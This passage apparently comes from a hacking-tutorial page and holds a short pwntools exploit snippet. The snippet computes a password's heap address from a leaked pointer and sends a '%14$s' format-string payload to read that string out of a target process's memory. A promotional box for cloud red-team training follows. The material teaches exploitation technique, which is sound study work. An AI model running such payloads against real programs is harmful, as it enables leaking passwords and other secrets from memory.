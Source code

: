 ```python

# Offset calculated from the leaked position to the possition of the pass in memory
password_addr = heap_leak_addr + 0x1f7bc

print(f"Calculated address is: {hex(password_addr)}")

# At offset 14 we can control the addres, so use %s to read the string from that address
payload = f"%14$s|||".encode()
payload += p64(password_addr)

p.sendline(payload)
output = p.clean()
print(output)
p.close()
```

<figure><img src="broken-reference" alt="" width="563"><figcaption></figcaption></figure>

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details><summary>Support Resources</summary></details>
{% endhint %}

